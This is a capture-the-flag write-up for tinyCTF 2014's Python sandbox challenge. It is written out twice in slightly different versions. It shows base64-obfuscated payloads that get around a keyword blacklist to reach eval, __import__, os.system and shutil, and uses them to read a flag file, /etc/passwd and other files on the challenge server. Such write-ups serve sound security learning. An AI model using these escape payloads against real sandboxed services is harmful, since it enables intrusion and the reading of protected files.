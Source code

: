 # tinyCTF 2014: Not exactly Alcatraz

**Category:** Exploitable
**Points:** 200
**Description:**

> [Exploit this](pwn200.zip)
> Over here: `nc 54.69.118.120 6000`
> Flag is in `/home/pybaby/flag.txt`

## Write-up

Let’s unzip [the provided `pwn200.zip` file](pwn200.zip):

```bash
$ unzip pwn200.zip
Archive:  pwn200.zip
  inflating: pwn200
```

The extracted `pwn200` file is a Python script.

```bash
$ python pwn200

Welcome to Safe Interactive CPython Shell (SICS)
================================================

Rules:
    - Wash your dishes
    - Don't eat the yellow snow
    - Do not import anything
    - No peeking at files!

baby@sics:~$
1 + 1
2
```

The script evaluates any Python code we enter, as long as it doesn’t contain the blacklisted words `import`, `open`, `flag`, `eval`, or `exec`. We need to find a way to break out of the sandbox and still read files.

One possible solution is the following:

```python
__builtins__.__dict__['ZXZhbA=='.decode('base64')]('b3BlbignL2hvbWUvcHliYWJ5L2ZsYWcudHh0JykucmVhZCgp'.decode('base64'))
```

`__builtins__.__dict__['ZXZhbA=='.decode('base64')]` is equivalent to `eval`, and `'b3BlbignL2hvbWUvcHliYWJ5L2ZsYWcudHh0JykucmVhZCgp'.decode('base64')` is `open('/home/pybaby/flag.txt').read()`. This prints the contents of the `/home/pybaby/flag.txt` file:

```
baby@sics:~$
__builtins__.__dict__['ZXZhbA=='.decode('base64')]('b3BlbignL2hvbWUvcHliYWJ5L2ZsYWcudHh0JykucmVhZCgp'.decode('base64'))
flag{python_sandboxing:_harder_than_teaching_your_mom_dota}

this is bad.

BitK vous fait des gros bisous

baby@sics:~$
```

The flag is `flag{python_sandboxing:_harder_than_teaching_your_mom_dota}`.

## Other write-ups and resources

* <http://sugarstack.io/tinyctf-exp200/>
* [_Escaping Python sandboxes_](https://isisblogs.poly.edu/2012/10/26/escaping-python-sandboxes/)


Un-zip [the provided `pwn200.zip` file](pwn200.zip):

```bash
$ unzip pwn200.zip
Archive:  pwn200.zip
  inflating: pwn200
```

The extracted `pwn200` file is a Python script.

```bash
$ python pwn200

Welcome to Safe Interactive CPython Shell (SICS)
================================================

Rules:
    - Wash your dishes
    - Don't eat the yellow snow
    - Do not import anything
    - No peeking at files!

baby@sics:~$
1 + 1
2
baby@sics:~$
open('/home/pybaby/flag.txt')
...
...
...

```

Well, we can't do anything 'normal' time for some 'exotic' code (-;

```python
# Well, let's try to import a library:
# X19pbXBvcnRfXw== is __import__ 
# c2h1dGls is shutil
__builtins__.__dict__['X19pbXBvcnRfXw=='.decode('base64')]('c2h1dGls'.decode('base64')).copyfile('/etc/passwd', '/proc/self/fd/0')
# Doing so on our local box

python pwn200
>>> __builtins__.__dict__['X19pbXBvcnRfXw=='.decode('base64')]('c2h1dGls'.decode('base64')).copyfile('/etc/passwd', '/proc/self/fd/0')
# BOOM! The password file... Okay, so this should work right?!

Nope... A socket dup'd fd doesn't like to be used like this...so back to the drawing board...

# Well, let's try to import a library again and use a system command:
# X19pbXBvcnRfXw== is __import__
# b3M= is os
__builtins__.__dict__['X19pbXBvcnRfXw=='.decode('base64')]('b3M='.decode('base64')).system("cat /home/pybaby/*.txt")

MONEY!!!

```

The flag is `flag{python_sandboxing:_harder_than_teaching_your_mom_dota}`.
